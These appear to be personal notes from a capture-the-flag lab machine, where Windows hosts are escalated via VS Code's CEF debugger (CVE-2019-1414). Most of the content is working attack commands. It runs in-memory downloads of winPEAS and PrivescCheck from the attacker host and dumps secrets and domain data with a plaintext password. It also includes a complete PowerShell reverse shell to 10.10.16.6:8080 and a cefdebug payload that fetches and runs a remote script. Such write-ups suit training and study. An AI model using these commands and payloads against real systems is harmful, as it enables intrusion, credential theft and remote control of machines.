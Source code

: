 
![[Pasted image 20240924041011.png]]

![[Pasted image 20240924041046.png]]

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```
![[Pasted image 20240924042731.png]]

I think some kind of antivirus is running behind
![[Pasted image 20240924043719.png]]

Now there are 2 ways either to try 
ldap
secrets dump
bloodhound
and see what we get so that we can escalate 


Secrets Dump
```
secretsdump.py holo.live/tushikikatomo:'finance1'@10.10.10.179
```

Ldap
```
ldapdomaindump ldaps://10.10.10.179 -u 'megacorp.local\tushikikatomo' -p 'finance1'
```
![[Pasted image 20240924141609.png]]

Bloodhound
```
bloodhound-python -d megacorp.local -u tushikikatomo -p 'finance1' -ns 10.10.10.179  -c all
```



Let's get back to script and see what we can do there
```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.20/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe'); Invoke-winPEASx64 -Extended
```

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe') | powershell -noprofile -
```


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1')
```


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PrivescCheck/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```

![[Pasted image 20240924225659.png]]

So what's the thing that stands outttttttttttttttttttt.
Microsoft VS Code            C:\Program Files\Microsoft VS Code
![[Pasted image 20240924233613.png]]

```
C:\Program Files\Microsoft VS Code
```

```
(get-command .\Code).version
```
![[Pasted image 20240925001315.png]]

CVE
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-1414

Will follow this blog
https://iwantmore.pizza/posts/cve-2019-1414.html


```
Invoke-WebRequest -Uri http://10.10.16.6/cefdebug/cefdebug.exe -OutFile cefdebug.exe
```
![[Pasted image 20240925160843.png]]
```
ws://127.0.0.1:40860/b4349ceb-188d-42a8-8c02-04d8145a3bf6
```

```
ws://127.0.0.1:64554/62f6a0f5-255e-4f13-a5aa-1e9cd4d3738b
```


Reverse Shell
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.6',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();
```

Payload
```
.\cefdebug.exe --url ws://127.0.0.1:8509/7c9c5946-7d08-4ef4-b724-87be420324bc --code "process.mainModule.require('child_process').exec('powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6//shell02.ps1')"
```

Invoke-WebRequest -Uri http://10.10.16.6/cefdebug/cefdebug.exe -OutFile cefdebug.exe

```
.\cefdebug.exe --url ws://127.0.0.1:32630/9630313f-5192-41f1-ab29-8c75a3f04186 --code "process.mainModule.require('child_process').exec('powershell IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.16.6/shell02.ps1\')')"
```

Finally it worked and guess what i have written the reverse shell name wrong
![[Pasted image 20240925163812.png]]
![[Pasted image 20240925163826.png]]

![[Pasted image 20240925163846.png]]

Now we have to escalate from here.
```
Invoke-WebRequest -Uri http://10.10.16.6/PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1 -OutFile winPEASps1.ps1
```

